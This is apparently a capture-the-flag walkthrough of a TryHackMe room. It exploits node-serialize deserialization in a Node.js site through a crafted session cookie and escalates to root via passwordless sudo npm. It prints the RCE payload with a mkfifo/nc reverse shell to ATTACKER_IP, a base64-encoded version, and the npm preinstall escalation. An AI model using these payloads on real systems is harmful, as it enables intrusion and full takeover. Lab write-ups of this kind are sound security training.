 ```yaml
---
parent: "[[CTFs - THM]]"
resources:
---
```


```bash
# PLATFORM          . THM
# CTF NAME          Jax sucks alot.............
# DESCRIPTION       In JavaScript everything is a terrible mistake.
# DIFFICULTY        Easy
# CTF LINK          https://tryhackme.com/r/room/jason
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.174.222 -oN jax
```

```
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 5b2d9d60a745de7a99203e4294ce193c (RSA)
|   256 bf32780183af785ee7fe9c834a7daa6b (ECDSA)
|_  256 12ab1380e5ad7307c848d5ca7c7de0af (ED25519)

80/tcp open  http
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Content-Type: text/html
|     Date: Fri, 12 Apr 2024 20:27:45 GMT
|     Connection: close
|     <html><head>
|     <title>Horror LLC</title>
|     <style>
|     body {
|     background: linear-gradient(253deg, #4a040d, #3b0b54, #3a343b);
|     background-size: 300% 300%;
|     -webkit-animation: Background 10s ease infinite;
|     -moz-animation: Background 10s ease infinite;
|     animation: Background 10s ease infinite;
|     @-webkit-keyframes Background {
|     background-position: 0% 50%
|     background-position: 100% 50%
|     100% {
|     background-position: 0% 50%
|     @-moz-keyframes Background {
|     background-position: 0% 50%
|     background-position: 100% 50%
|     100% {
|     background-position: 0% 50%
|     @keyframes Background {
|     background-position: 0% 50%
|_    background-posi
|_http-title: Horror LLC
```

- In the source page's code we find the following script

```
document.getElementById("signup").addEventListener("click", function() {
	var date = new Date();
    	date.setTime(date.getTime()+(-1*24*60*60*1000));
    	var expires = "; expires="+date.toGMTString();
    	document.cookie = "session=foobar"+expires+"; path=/";
    	const Http = new XMLHttpRequest();
        console.log(location);
        const url=window.location.href+"?email="+document.getElementById("fname").value;
        Http.open("POST", url);
        Http.send();
	setTimeout(function() {
		window.location.reload();
	}, 500);
    });
```

- Whatever email is inputted, it is converted as base64 and added as a cookie. However, except the base64 conversion, this is pretty much useless knowledge.

- The idea this room revolves around is [[Data Serialisation|data serialization and deserialization]]. 

- In NodeJS, untrusted data passed to `unserialize()` function in the `node-serialize` module can lead to RCE. 

- This happens when a serialized JS Object is passed to the object and it's invoked immediately - `()` at the end. 

- After some googling around, I found the syntax needed to achieve this

```json
{"payload":"_$$ND_FUNC$$_function(){ require('child_process').execSync(\"<command>\",function puts(error, stdout, stderr){});}()"}
```

- So I ended up with 

```json
{"payload":"_$$ND_FUNC$$_function(){ require('child_process').execSync(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 > /tmp/f\",function puts(error, stdout, stderr){});}()"}
```

- Then, I've encoded it to base 64, resulting in the following value

```
eyJwYXlsb2FkIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uKCl7IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjU3luYyhcInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDEwLjExLjUzLjQ2IDQ0NDQgPiAvdG1wL2ZcIixmdW5jdGlvbiBwdXRzKGVycm9yLCBzdGRvdXQsIHN0ZGVycil7fSk7fSgpIn0=
```

- I've changed the current cookie with the value above and I received a connection

>[!TIP]
> We can use the non-encoded payload as an input for the email box, leaving the server to do the base64 encoding and cookie updating part, resulting in the same behaviour.

```
Listening on 0.0.0.0 4444
Connection received on 10.10.174.222 47974
/bin/sh: 0: can't access tty; job control turned off
$ whoami
dylan
```

- After stabilizing the shell, I noticed that I can run `/usr/bin/npm *` as root without using a password.

```
dylan@jason:~$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

- After consulting with [GTFObins](https://gtfobins.github.io/gtfobins/npm/#sudo), I've managed to escalate privileges to root

```
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo /usr/bin/npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.CJRZEEQsEs
> /bin/sh

# whoami
root
```

- The user flag is in `/home/dylan/user.txt`.
- The root flag is in `/root/root.txt`.

